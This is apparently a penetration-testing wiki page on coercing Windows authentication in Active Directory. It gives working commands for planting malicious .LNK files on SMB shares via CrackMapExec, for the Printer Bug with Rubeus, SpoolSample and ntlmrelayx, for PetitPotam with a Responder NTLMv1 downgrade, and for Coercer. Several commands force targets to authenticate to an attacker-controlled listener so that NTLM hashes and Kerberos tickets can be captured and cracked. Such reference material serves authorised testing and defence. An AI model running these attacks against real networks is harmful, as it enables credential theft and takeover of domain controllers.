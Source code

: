 # Coercing Authentication

### Harvest NTLMv2/v1 Hashes with Write Access to Shares

The [following example](https://twitter.com/mpgn\_x64/status/1453018750253424643?ref\_src=twsrc%5Etfw%7Ctwcamp%5Etweetembed%7Ctwterm%5E1453018750253424643%7Ctwgr%5E0fe6e46bc61c94f27278793c3b0620a3c2ed5bd6%7Ctwcon%5Es1\_\&ref\_url=https%3A%2F%2Fcdn.iframe.ly%2Fo0HzCyi%3Fapp%3D1) demonstrates performing this attack with CrackMapExec, however, it can also be performed by crafting a custom `.LNK` file.

1\. Enumerate the hosts shares

```bash
crackmapexec smb $ip -u $username -p $password --shares
```

2\. Create a malicious .LNK file calling back to your Responder.py IP

```bash
crackmapexec smb $ip -u $username -p $password -M slinky -o NAME=$share SERVER=[ResponderIP]
```

3\. After waiting and (hopefully) obtaining several NTLM hashes, cleanup the malicious file

```bash
crackmapexec smb $ip -u $username -p $password -M slinky -o NAME=$share SERVER=$responder_ip CLEANUP=True
```

#### Notes

* Put an underscore as the first character in the file name (e.g., `NAME=_bonus.xlsx` and it will put the file at the top of the directory, making it more likely to render and send a hash to the malicious server.&#x20;

### The Printer Bug&#x20;

If a machine that we have compromised is configured with [unconstrained delegation](../../../tactics/credential\_access/steal-or-forge-kerberos-tickets/delegation/unconstrained-delegation.md) we are able to capture any of the TGTs from machines/accounts that have authenticated to it. If we're able to obtain a TGT from a machine account, we can craft service tickets and obtain administrative access to it - this also works for domain controllers.&#x20;

It should be noted that in order to successfully exploit the printer bug, we must have already obtained a session as or valid domain user credentials.&#x20;

#### Enumerate Print Spooler Service

Enumerate Print Spooler service with ItWasAllADream:

```bash
# Enumerate Print Spooler with ItWasALlADream
docker run -it itwasalladream -u $username -p $password -d $domain $target -v

# Enumerate with CrackMapExec
crackmapexec smb $ip -u $username -p $password -M spooler

# Enumerate Print Spooler with Impacket
python rpcdump.py @$target | egrep 'MS-RPRN|MS-PAR'

# SpoolerScan.ps1
.\SpoolerScan.ps1
```

#### Exploiting the Printer Bug with [SpoolSample.exe](https://github.com/leechristensen/SpoolSample)

1\. We first need to monitor for any new TGTs on the system that has unconstrained delegation configured. Rubeus provides us with the handy functionality to accomplish this:

```bash
.\Rubeus.exe monitor /targetuser:$machineaccount /interval:5 /nowrap
```

2\. We can then execute `SpoolSample.exe` on the host to coerce authentication:

```bash
.\SpoolSample.exe $target $attacker
```

3\. After running `SpoolSample.exe` we should then aobserve a TGT on the attacker controlled system.

#### Remotely Exploiting the Printer Bug

* [Dementor.py](https://github.com/NotMedic/NetNTLMtoSilverTicket/blob/master/dementor.py)
* [Printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)

Alternatively, we can accomplish this same exploitation path remotely using Impacket's ntlmrelayx to relay the credentials:

```bash
# Exploiting the Printerbug with Dementor.py
dementor.py -d $domain -u $username -p $password $attackerip $targetfqdn

# Exploiting the Printerbug with Printerbug.py
python printerbug.py $domain/$username:$password@$targetfqdn $attackerip

# Relay the authentication attempt to the target server
 ntlmrelayx.py -smb2support -t smb://$targetx
```

### PetitPotam

While [PetitPotam](https://github.com/topotam/PetitPotam) itself has been rendered a little redundant due to tools like Coercer accomplishing the same, yet more. It is still important to discuss as it's still all that's needed to [compromise a significant amount](https://blog.zsec.uk/chasing-the-silver-petit-potam/) of Active Directory environments. One of the most simple yet effective attack paths with PetitPotam would look like the following:

1\. The tester first identifies all of the domain controllers in the domain, this can be done either through DNS or by identifying common ports associated with DC's such as 88/tcp.&#x20;

2\. Modify the configuration of your Responder installation so that the challenge paramter is set to the following value and run Responder in Analyze mode with the `--lm` flag to attempt to downgrade the authentication:

```bash
# Responder Challenge Attribute
1122334455667788

# Run Responder with 
responder -I $interface -A --lm 
```

3\. The tester can then attempt to force authentication from the domain controllers to the attacker controlled server using PetitPotam:

```bash
python3 PetitPotam.py $listenerip $targetip
```

4\. The output received should look like the following:

```bash
[SMB] NTLMv1 Client   : 10.0.0.5
[SMB] NTLMv1 Username : OASIS\PARZDC$
[SMB] NTLMv1 Hash     : PARZDC$::OASIS:FFJSFOE[SNIP]
```

5\. With the NTLMv1 hash now retrieved, the tester can utilize the [ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi) tool to obtain the appropriate format for cracking:

```bash
ntlmv1.py --ntlmv1 PARZDC$::OASIS:FFJSFOE[SNIP]
```

6\. This hash can then be cracked via Hashcat with the instructions displayed on screen or alternatively can be submitted to [crack.sh](https://crack.sh).&#x20;

### Trigger NTLM Authentication over HTTP

```bash
## https://twitter.com/n00py1/status/1481385989025280000?s=20&t=rMzsQI6ENH2SYVVaTYTqAA
Invoke-WebRequest -UseDefaultCredentials
```

### Coercer

[Coercer](https://github.com/p0dalirius/Coercer) is a Python script which automagically attempt to coerce an arbitrary machine to an attacker controlled device in several ways.

```bash
# Basic use of Coercer.py
Coercer.py -d $domain -u $username -p $password --listener $attackerip --target $targetip
```

### References

{% embed url="https://www.praetorian.com/blog/active-directory-computer-account-smb-relaying-attack/" %}
